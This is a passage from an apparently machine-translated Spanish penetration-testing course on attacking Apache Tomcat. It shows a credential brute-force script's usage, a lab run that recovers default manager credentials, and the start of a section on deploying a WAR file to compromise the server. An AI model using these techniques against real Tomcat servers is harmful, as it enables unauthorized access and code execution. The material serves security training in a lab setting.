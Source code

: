 ```python
    cprint("[+] Could not Find the creds :( ", "red", attrs = ['bold'])
#print r.status_code

```

Este es un guión muy sencillo que toma algunos argumentos. Podemos ejecutar el script con`-h`para ver lo que requiere ejecutar.

Atacando a Tomcat

```
xnoxos@htb[/htb]$ python3 mgr_brute.py  -husage: mgr_brute.py [-h] -U URL -P PATH -u USERNAMES -p PASSWORDS

Tomcat manager or host-manager credential bruteforcing

optional arguments:
  -h, --help            show this help message and exit
  -U URL, --url URL     URL to tomcat page
  -P PATH, --path PATH  manager or host-manager URI
  -u USERNAMES, --usernames USERNAMES
                        Users File
  -p PASSWORDS, --passwords PASSWORDS
                        Passwords Files

```

Podemos probar el script con el archivo predeterminado de usuarios y contraseñas de Tomcat que usa el módulo de metasploit anterior. ¡Lo ejecutamos y recibimos un golpe!

Atacando a Tomcat

```
xnoxos@htb[/htb]$ python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt[+] Atacking.....

[+] Success!!
[+] Username : b'tomcat'
[+] Password : b'admin'

```

Si está interesado en las secuencias de comandos, consulte los módulos[Introducción a Python 3](https://academy.hackthebox.com/course/preview/introduction-to-python-3)y[Introducción a las secuencias de comandos Bash](https://academy.hackthebox.com/course/preview/introduction-to-bash-scripting). Un ejercicio ordenado sería crear nuestros propios scripts de inicio de sesión de la fuerza brute-force de Tomcat usando Python y Bash, pero dejaremos ese ejercicio para usted.

---

# **Tomcat Manager - Carga del archivo de guerra**

Muchas instalaciones de Tomcat proporcionan una interfaz GUI para administrar la aplicación. Esta interfaz está disponible en`/manager/html`de forma predeterminada, que solo los usuarios asignaron el`manager-gui`El rol puede acceder. Las credenciales de gerente válidas se pueden usar para cargar una aplicación Tomcat empaquetada (archivo .war) y comprometer la aplicación. Se utiliza una guerra, o archivo de aplicaciones web, para implementar rápidamente aplicaciones web y almacenamiento de copias de seguridad.

